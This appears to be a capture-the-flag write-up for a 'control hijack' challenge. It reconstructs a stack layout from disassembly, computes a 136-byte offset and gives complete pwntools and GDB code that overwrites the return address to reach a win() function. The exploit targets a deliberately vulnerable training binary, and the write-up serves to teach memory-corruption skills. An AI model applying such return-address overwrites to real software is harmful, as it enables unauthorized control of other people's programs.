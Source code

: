 # **Binary Exploitation Write-Up: Control Hijack (Hard Mode)**

## **Challenge Overview**
This challenge demonstrates classic return address overwrite exploitation in a hardened environment:
- **Objective**: Redirect execution to `win()` function at `0x4012b3`
- **Protections**: No canary, No PIE (static addresses), NX enabled
- **Vulnerability**: Unbounded `read()` into stack buffer
- **Complexity**: No debug output, requires manual reverse engineering

## **Key Findings from Reverse Engineering**

### **1. Disassembly Analysis**
```asm
lea    -0x80(%rbp), %rax   # Buffer at rbp-0x80 (128 bytes)
mov    $0x1000, %edx       # Reads up to 4096 bytes
call   read                # Vulnerable input
```

### **2. Stack Layout Reconstruction**
```
+---------------------+
| Buffer Start        | rbp-0x80 (128 bytes)
| ...                 |
| Saved RBP           | rbp
| Return Address      | rbp+0x8 (target)
+---------------------+
```

### **3. Critical Offsets**
- **Buffer to Return Address**: 136 bytes (128 + 8)
- **win() Location**: `0x4012b3` (static address)

## **Exploit Development**

### **1. Payload Structure**
```python
from pwn import *

payload = (
    b"A" * 136 +          # Padding to return address
    p64(0x4012b3)         # win() address (little-endian)
)
```

### **2. Complete Exploit Code**
```python
from pwn import *

# Start process
p = process("/challenge/binary-exploitation-control-hijack")

# Craft payload
payload = flat(
    {136: p64(0x4012b3)},
    filler="A"
)

# Send and receive
p.send(payload)
print(p.recvall())
```

## **Debugging Methodology**

### **1. GDB Verification**
```bash
gdb /challenge/binary-exploitation-control-hijack
break *challenge+280  # Before return
run < <(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*136 + b"\xb3\x12\x40\x00\x00\x00\x00\x00")')
x/gx $rbp+0x8          # Verify return address
```

### **2. Common Issues & Fixes**
| Symptom | Solution |
|---------|----------|
| Partial overwrite | Use `p64()` not `p32()` |
| Wrong offset | Verify with `cyclic()` pattern |
| Input corruption | Use direct binary writes |
| ASLR confusion | Confirm No PIE in checksec |

## **Key Exploitation Concepts**

1. **Stack Frame Manipulation**:
   - Precise calculation of buffer-to-return-address distance
   - Understanding 64-bit stack alignment

2. **Control Flow Hijacking**:
   - Overwriting return addresses with static function locations
   - Bypassing NX via existing code redirection

3. **Reliable Payload Delivery**:
   - Handling binary data in different execution environments
   - Avoiding terminal-induced corruption

## **Lessons Learned**

1. **Reverse Engineering Skills**:
   - Extracting critical offsets from raw disassembly
   - Determining stack layout without debug symbols

2. **Precision Requirements**:
   - Exact padding calculations
   - Proper address packing for architecture

3. **Debugging Techniques**:
   - Comparative testing between direct execution and GDB
   - Binary payload verification methods

## **Exploit Walkthrough**

1. **Determine Buffer Location**:
   - Found `lea -0x80(%rbp)` in disassembly → 128 byte buffer

2. **Calculate Overflow Distance**:
   - Buffer (128) + Saved RBP (8) = 136 bytes to return address

3. **Locate Target Function**:
   - `objdump -d | grep win` revealed `0x4012b3`

4. **Craft Precision Payload**:
   - 136 bytes padding + 8 byte address overwrite

5. **Handle Input Delivery**:
   - Used direct binary writes to avoid corruption

This write-up documents a reliable methodology for solving hard-mode control flow hijacking challenges, emphasizing the importance of precise memory manipulation and thorough debugging verification.
